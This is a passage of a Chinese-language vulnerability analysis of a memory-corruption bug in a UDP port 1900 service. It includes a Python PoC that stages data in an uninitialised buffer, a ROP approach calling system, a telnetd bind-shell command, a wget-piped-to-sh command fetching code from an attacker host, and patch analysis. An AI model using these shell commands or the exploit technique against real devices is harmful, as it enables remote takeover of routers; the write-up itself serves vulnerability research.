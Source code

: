 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ecbf868186fd4e9f.jpg)

下面探讨下更为 general 的 RCE 利用，一般像这种 ROP 的 payload 中包含 `\x00`，覆盖返回地址的payload 又不能包含 `\x00`，就要想办法提前将 ROP payload 注入目标内存。

比如，利用内存未初始化问题，构造如下 PoC，每个 payload 前添加 `\x00` 防止程序崩溃。

```
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(('192.168.2.2', 1900))
s.send(b'\x00' + b'A' * 0x1ff0)
s.send(b'\x00' + b'B' * 0x633)
s.close()
```

在漏洞点下断点，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01397670c980c199cf.jpg)

两次拷贝完成后，看下内存布局：

[![](https://p1.ssl.qhimg.com/t01dea1b78ecde2902e.jpg)](https://p1.ssl.qhimg.com/t01dea1b78ecde2902e.jpg)

可以看到，由于接收 socket 数据的 buffer 未初始化，在劫持 PC 前我们可以往目标内存注入 6500 多字节的数据。<br>
这么大的空间，也足以给 ROP 的 payload 一片容身之地。

借用原作者的一张图，利用原理如下：

[![](https://p5.ssl.qhimg.com/t01751f47c7dd9d7021.png)](https://p5.ssl.qhimg.com/t01751f47c7dd9d7021.png)

关于 ROP，使用 `strcpy` 调用在 bss 上拼接出命令字符串，并调整 R0 指向这段内存，然后跳转 `system` 执行即可。

原作者构造的 `system("telnetd -l /bin/sh -p 9999&amp; ")` 绑定型 shell。

经过分析，我发现可以构造 `system("wget http://`{`reverse_ip`}`:`{`reverse_port`}` -O-|/bin/sh")` 调用，从而无限制任意命令执行。

构造的关键在于下面这张表。

[![](https://p0.ssl.qhimg.com/t01a9453235c5b313c2.jpg)](https://p0.ssl.qhimg.com/t01a9453235c5b313c2.jpg)

发送 payload，通过 hook 的日志可以看到，ROP 利用链按照预期工作，可以无限制远程命令执行。<br>
（由于模拟环境的问题，wget 命令运行段错误了…）

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01dc4fea0b34db900a.jpg)



## 5.补丁分析

在更新版固件 `V1.0.2.134` 中，用 `strncpy()` 代替 `strcpy()`，限制了拷贝长度为 `0x5db`，正好是 buffer 长度减 1。
